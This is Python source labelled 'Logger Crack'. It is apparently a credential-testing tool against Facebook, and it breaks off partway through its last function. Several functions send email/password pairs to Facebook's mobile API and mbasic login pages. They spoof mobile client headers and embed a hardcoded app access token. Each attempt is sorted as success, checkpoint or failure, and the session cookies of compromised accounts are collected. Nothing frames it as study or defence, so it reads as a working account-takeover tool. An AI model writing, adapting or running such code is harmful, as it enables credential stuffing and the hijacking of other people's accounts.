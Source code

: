### Logger Crack
def log_api_1(em,pas):
    ua = _azimvau_dapunta_('ugent.txt','r').read()
    r = requests.Session()
    header = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)),"x-fb-sim-hni": str(random.randint(20000, 40000)),"x-fb-net-hni": str(random.randint(20000, 40000)),"x-fb-connection-quality": "EXCELLENT","x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA","user-agent": ua,"content-type": "application/x-www-form-urlencoded","x-fb-http-engine": "Liger"}
    response = r.get('https://b-api.facebook.com/method/auth.login?format=json&email=' + em + '&password=' + pas + '&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_in_userid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true', headers=header)
    if 'session_key' in response.text and 'EAAA' in response.text:return {"status":"ok","email":em,"pass":pas}
    elif 'www.facebook.com' in response.json()['error_msg']:return {"status":"cp","email":em,"pass":pas}
    else:return {"status":"error","email":em,"pass":pas}
def log_api_2(em,pas):
    ua = _azimvau_dapunta_('ugent.txt','r').read()
    r = requests.Session()
    header = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)),"x-fb-sim-hni": str(random.randint(20000, 40000)),"x-fb-net-hni": str(random.randint(20000, 40000)),"x-fb-connection-quality": "EXCELLENT","x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA","user-agent": ua,"content-type": "application/x-www-form-urlencoded","x-fb-http-engine": "Liger"}
    param = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'json', 'sdk_version': '2', 'email': em, 'locale': 'en_US', 'password': pas, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig':'3f555f99fb61fcd7aa0c44f58f522ef6'}
    api = 'https://b-api.facebook.com/method/auth.login'
    response = r.get(api, params=param, headers=header)
    if 'session_key' in response.text and 'EAAA' in response.text:return {"status":"ok","email":em,"pass":pas}
    elif 'www.facebook.com' in response.json()['error_msg']:return {"status":"cp","email":em,"pass":pas}
    else:return {"status":"error","email":em,"pass":pas}
def log_mbasic_1(em,pas):
    ua = _azimvau_dapunta_('ugent.txt','r').read()
    r = requests.Session()
    r.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"en-GB,en-US;q=0.9,en;q=0.8,bn;q=0.7"})
    p = r.get("https://mbasic.facebook.com/")
    b = r.post("https://mbasic.facebook.com/login.php", data={"email": em, "pass": pas, "login": "submit"})
    _raw_cookies_ = (";").join([ "%s=%s" % (key, value) for key, value in r.cookies.get_dict().items() ])
    if "c_user" in r.cookies.get_dict().keys():return {"status":"ok","email":em,"pass":pas,"cookies":_raw_cookies_}
    elif "checkpoint" in r.cookies.get_dict().keys():return {"status":"cp","email":em,"pass":pas,"cookies":_raw_cookies_}
    else:return {"status":"error","email":em,"pass":pas}
def log_mbasic_2(em,pas):
    ua = _azimvau_dapunta_('ugent.txt','r').read()
    r = requests.Session()
    r.headers.update({"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8","accept-encoding":"gzip, deflate","accept-language":"en-GB,en-US;q=0.9,en;q=0.8,bn;q=0.7"})
    p = r.get("https://mbasic.facebook.com/")
    b = bs4.BeautifulSoup(p.text,"html.parser")
    meta="".join(bs4.re.findall('dtsg":\{"token":"(.*?)"',p.text))